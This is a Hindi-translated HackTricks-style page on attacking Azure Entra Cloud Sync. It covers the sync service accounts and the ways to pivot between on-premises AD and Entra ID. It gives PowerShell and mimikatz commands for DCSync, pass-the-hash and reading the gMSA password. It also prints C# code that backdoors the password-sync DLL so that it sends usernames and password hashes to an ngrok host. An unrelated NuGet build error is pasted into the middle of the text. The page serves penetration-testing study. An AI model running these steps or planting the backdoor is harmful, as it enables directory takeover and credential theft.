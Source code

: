 # Az - Cloud Sync

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

**Cloud Sync** मूल रूप से Azure का नया तरीका है **AD से Entra ID में उपयोगकर्ताओं को समन्वयित करने के लिए**।

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync) Microsoft Entra Cloud Sync Microsoft द्वारा एक नई पेशकश है जो उपयोगकर्ताओं, समूहों और संपर्कों को Microsoft Entra ID में समन्वयित करने के लिए आपके हाइब्रिड पहचान लक्ष्यों को पूरा करने और हासिल करने के लिए डिज़ाइन की गई है। यह Microsoft Entra Connect एप्लिकेशन के बजाय Microsoft Entra क्लाउड प्रोविजनिंग एजेंट का उपयोग करके इसे पूरा करता है। हालाँकि, इसे Microsoft Entra Connect Sync के साथ भी उपयोग किया जा सकता है।

### Principals Generated

इसका काम करने के लिए कुछ प्रिंसिपल Entra ID और On-Premise डायरेक्टरी में बनाए जाते हैं:

- Entra ID में उपयोगकर्ता `On-Premises Directory Synchronization Service Account` (`ADToAADSyncServiceAccount@carloshacktricks.onmicrosoft.com`) को **`Directory Synchronization Accounts`** (`d29b2b05-8046-44ba-8758-1e26182fcf32`) भूमिका के साथ बनाया जाता है।

> [!WARNING]
> इस भूमिका के पास पहले बहुत सारे विशेषाधिकार थे और इसका उपयोग [**विशेषाधिकारों को वैश्विक व्यवस्थापक तक बढ़ाने के लिए किया जा सकता था**](https://medium.com/tenable-techblog/stealthy-persistence-with-directory-synchronization-accounts-role-in-entra-id-63e56ce5871b)। हालाँकि, Microsoft ने इस भूमिका के सभी विशेषाधिकारों को हटाने और इसे केवल एक नए **`microsoft.directory/onPremisesSynchronization/standard/read`** के साथ असाइन करने का निर्णय लिया है, जो वास्तव में किसी भी विशेषाधिकार कार्रवाई (जैसे उपयोगकर्ता का पासवर्ड या विशेषताओं को संशोधित करना या SP में एक नई क्रेडेंशियल जोड़ना) करने की अनुमति नहीं देता है।

- Entra ID में समूह **`AAD DC Administrators`** बिना सदस्यों या मालिकों के बनाया जाता है। यह समूह उपयोगी है यदि [`Microsoft Entra Domain Services`](./az-domain-services.md) का उपयोग किया जाता है।

- AD में, या तो सेवा खाता **`provAgentgMSA`** एक SamAcountName के साथ बनाया जाता है जैसे **`pGMSA_<id>$@domain.com`** (`Get-ADServiceAccount -Filter * | Select Name,SamAccountName`), या एक कस्टम खाता [**इन अनुमतियों की आवश्यकता है**](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/how-to-prerequisites?tabs=public-cloud#custom-gmsa-account)। आमतौर पर डिफ़ॉल्ट खाता बनाया जाता है।

> [!WARNING]
> अन्य अनुमतियों के बीच, सेवा खाता **`provAgentgMSA`** के पास DCSync अनुमतियाँ हैं, जो **किसी भी व्यक्ति को जो इसे समझौता करता है, पूरे डायरेक्टरी को समझौता करने की अनुमति देती हैं**। DCSync के बारे में अधिक जानकारी के लिए [यहाँ देखें](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html)।

> [!NOTE]
> डिफ़ॉल्ट रूप से, ज्ञात विशेषाधिकार समूहों जैसे डोमेन व्यवस्थापकों के उपयोगकर्ता जिनका विशेषता **`adminCount` 1 है, Entra ID के साथ समन्वयित नहीं होते** सुरक्षा कारणों से। हालाँकि, अन्य उपयोगकर्ता जो इस विशेषता के बिना विशेषाधिकार समूहों का हिस्सा हैं या जिन्हें सीधे उच्च विशेषाधिकार सौंपे गए हैं **समन्वयित किए जा सकते हैं**।

## Password Sychronization

यह अनुभाग बहुत समान है:

{{#ref}}
az-connect-sync.md
{{#endref}}

- **पासवर्ड हैश समन्वयन** सक्षम किया जा सकता है ताकि उपयोगकर्ता **AD से अपने पासवर्ड का उपयोग करके Entra ID में लॉगिन कर सकें**। इसके अलावा, जब भी AD में पासवर्ड संशोधित किया जाता है, यह Entra ID में अपडेट हो जाएगा।
- **पासवर्ड राइटबैक** को भी सक्षम किया जा सकता है, जिससे उपयोगकर्ता अपने पासवर्ड को Entra ID में संशोधित कर सकते हैं, जो स्वचालित रूप से उनके पासवर्ड को ऑन-प्रिमाइस डोमेन में समन्वयित करता है। लेकिन [वर्तमान दस्तावेज़ों](https://learn.microsoft.com/en-us/entra/identity/authentication/tutorial-enable-sspr-writeback#configure-password-writeback) के अनुसार, इसके लिए Connect Agent का उपयोग करना आवश्यक है, इसलिए अधिक जानकारी के लिए [Az Connect Sync अनुभाग](./az-connect-sync.md) पर नज़र डालें।
- **समूह राइटबैक**: यह सुविधा Entra ID से समूह सदस्यताओं को ऑन-प्रिमाइस AD में वापस समन्वयित करने की अनुमति देती है। इसका मतलब है कि यदि किसी उपयोगकर्ता को Entra ID में एक समूह में जोड़ा जाता है, तो उन्हें AD में संबंधित समूह में भी जोड़ा जाएगा।

## Pivoting

### AD --> Entra ID

- यदि AD उपयोगकर्ताओं को AD से Entra ID में समन्वयित किया जा रहा है, तो AD से Entra ID में पिवट करना सीधा है, बस **किसी उपयोगकर्ता का पासवर्ड समझौता करें या किसी उपयोगकर्ता का पासवर्ड बदलें या एक नया उपयोगकर्ता बनाएं और जब तक यह Entra ID डायरेक्टरी में समन्वयित नहीं हो जाता (आमतौर पर केवल कुछ मिनट)**।

तो आप उदाहरण के लिए
- **`provAgentgMSA`** खाता समझौता करें, DCSync हमले का प्रदर्शन करें, किसी उपयोगकर्ता का पासवर्ड क्रैक करें और फिर इसका उपयोग Entra ID में लॉगिन करने के लिए करें।
- बस AD में एक नया उपयोगकर्ता बनाएं, जब तक यह Entra ID में समन्वयित नहीं हो जाता और फिर इसका उपयोग Entra ID में लॉगिन करने के लिए करें।
- AD में किसी उपयोगकर्ता का पासवर्ड संशोधित करें, जब तक यह Entra ID में समन्वयित नहीं हो जाता और फिर इसका उपयोग Entra ID में लॉगिन करने के लिए करें।

**`provAgentgMSA`** क्रेडेंशियल्स को समझौता करने के लिए:
```powershell
# Enumerate provAgentgMSA account
Get-ADServiceAccount -Filter * -Server domain.local
# Find who can read the password of the gMSA (usually only the DC computer account)
Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties * -Server domain.local | selectPrincipalsAllowedToRetrieveManagedPassword

# You need to perform a PTH with the hash of the DC computer account next. For example using mimikatz:
lsadump::dcsync /domain:domain.local /user:<dc-name>$
sekurlsa::pth /user:<dc-name>$ /domain:domain.local /ntlm:<hash> /run:"cmd.exe"

# Or you can change who can read the password of the gMSA account to all domain admins for example:
Set-ADServiceAccount -Identity 'pGMSA_<id>$' -PrincipalsAllowedToRetrieveManagedPassword 'Domain Admins'

# Read the password of the gMSA
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties msDS-ManagedPassword -server domain.local).'msDS-ManagedPassword'

#Install-Module -Name DSInternals
#Import-Module DSInternals
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```
अब आप gMSA के हैश का उपयोग करके `provAgentgMSA` खाते के खिलाफ Entra ID के खिलाफ Pass-the-Hash हमले को अंजाम दे सकते हैं और AD के खिलाफ DCSync हमले करने के लिए स्थिरता बनाए रख सकते हैं।

Active Directory को समझौता करने के तरीके के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
{{#endref}}

> [!NOTE]
> ध्यान दें कि Azure या EntraID भूमिकाएँ सिंक किए गए उपयोगकर्ताओं को उनके गुणों के आधार पर देने का कोई तरीका नहीं है, उदाहरण के लिए Cloud Sync कॉन्फ़िगरेशन में। हालाँकि, सिंक किए गए उपयोगकर्ताओं को स्वचालित रूप से अनुमतियाँ देने के लिए कुछ **AD से Entra ID समूहों** को अनुमतियाँ दी जा सकती हैं ताकि उन समूहों के अंदर सिंक किए गए उपयोगकर्ताओं को भी उन्हें प्राप्त हो सके या **गतिशील समूहों का उपयोग किया जा सकता है**, इसलिए हमेशा गतिशील नियमों और उन्हें दुरुपयोग करने के संभावित तरीकों की जांच करें:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/dynamic-groups.md
{{#endref}}

स्थिरता के संबंध में [यह ब्लॉग पोस्ट](https://tierzerosecurity.co.nz/2024/05/21/ms-entra-connect-sync-mothods.html) सुझाव देती है कि [**dnSpy**](https://github.com/dnSpy/dnSpy) का उपयोग करके **`Microsoft.Online.Passwordsynchronisation.dll`** को बैकडोर करना संभव है जो **`C:\Program Files\Microsoft Azure AD Sync\Bin`** में स्थित है और जिसका उपयोग Cloud Sync एजेंट द्वारा पासवर्ड समन्वयन करने के लिए किया जाता है, जिससे यह उपयोगकर्ताओं के पासवर्ड हैश को एक दूरस्थ सर्वर पर एक्सफिल्ट्रेट करता है। हैश **`PasswordHashGenerator`** वर्ग के अंदर उत्पन्न होते हैं और ब्लॉग पोस्ट सुझाव देता है कि कुछ कोड जोड़ा जाए ताकि वर्ग इस तरह दिखे (ध्यान दें `use System.Net` और पासवर्ड हैश को एक्सफिल्ट्रेट करने के लिए `WebClient` का उपयोग):
```csharp
using System;
using System.Net;
using Microsoft.Online.PasswordSynchronization.DirectoryReplicationServices;

namespace Microsoft.Online.PasswordSynchronization
{
// Token: 0x0200003E RID: 62
public class PasswordHashGenerator : ClearPasswordHashGenerator
{
// Token: 0x06000190 RID: 400 RVA: 0x00006DFC File Offset: 0x00004FFC
public override PasswordHashData CreatePasswordHash(ChangeObject changeObject)
{
PasswordHashData passwordHashData = base.CreatePasswordHash(changeObject);
try
{
using (WebClient webClient = new WebClient())
{
webClient.DownloadString("https://786a39c7cb68.ngrok-free.app?u=" + changeObject.DistinguishedName + "&p=" + passwordHashData.Hash);
}
}
catch (Exception)
{
}
return new PasswordHashData
{
Hash = OrgIdHashGenerator.Generate(passwordHashData.Hash),
RawHash = passwordHashData.RawHash
};
}
}
}
```
NuGet Package restore failed for project AzTokenFinder: Unable to find version '4.3.2' of package 'System.Security.Cryptography.X509Certificates'.
C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\: Package 'System.Security.Cryptography.X509Certificates.4.3.2' is not found on source 'C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\'.
. Please see Error List window for detailed warnings and errors.

### Entra ID --> AD

- यदि **Password Writeback** सक्षम है, तो आप Entra ID से कुछ उपयोगकर्ताओं का पासवर्ड संशोधित कर सकते हैं और यदि आपके पास AD नेटवर्क तक पहुंच है, तो उनके माध्यम से कनेक्ट करें। अधिक जानकारी के लिए [Az Connect Sync section](./az-connect-sync.md) अनुभाग देखें क्योंकि पासवर्ड राइटबैक उस एजेंट का उपयोग करके कॉन्फ़िगर किया गया है।

- इस समय Cloud Sync भी **"Microsoft Entra ID to AD"** की अनुमति देता है, लेकिन बहुत समय बाद मैंने पाया कि यह EntraID उपयोगकर्ताओं को AD में समन्वयित नहीं कर सकता और यह केवल उन EntraID उपयोगकर्ताओं को समन्वयित कर सकता है जो पासवर्ड हैश के साथ समन्वयित किए गए थे और उसी डोमेन वन के डोमेन से आते हैं जिसमें हम समन्वयित कर रहे हैं जैसा कि आप पढ़ सकते हैं [https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits](https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits):

> - ये समूह केवल ऑन-प्रिमाइसेस समन्वयित उपयोगकर्ताओं और / या अतिरिक्त क्लाउड द्वारा बनाए गए सुरक्षा समूहों को शामिल कर सकते हैं।
> - ऑन-प्रिमाइसेस उपयोगकर्ता खाते जो समन्वयित हैं और इस क्लाउड द्वारा बनाए गए सुरक्षा समूह के सदस्य हैं, वे उसी डोमेन या क्रॉस-डोमेन से हो सकते हैं, लेकिन वे सभी एक ही वन से होने चाहिए।

इसलिए इस सेवा की हमले की सतह (और उपयोगिता) काफी कम हो जाती है क्योंकि एक हमलावर को उन उपयोगकर्ताओं को समन्वयित करने के लिए प्रारंभिक AD से समझौता करना होगा ताकि दूसरे डोमेन में एक उपयोगकर्ता से समझौता किया जा सके (और दोनों को स्पष्ट रूप से एक ही वन में होना चाहिए)।

### Enumeration
```bash
# Check for the gMSA SA
Get-ADServiceAccount -Filter "ObjectClass -like 'msDS-GroupManagedServiceAccount'"

# Get all the configured cloud sync agents (usually one per on-premise domain)
## In the machine name of each you can infer the name of the domain
az rest \
--method GET \
--uri "https://graph.microsoft.com/beta/onPremisesPublishingProfiles('provisioning')/agents/?\$expand=agentGroups" \
--headers "Content-Type=application/json"
```
{{#include ../../../banners/hacktricks-training.md}}
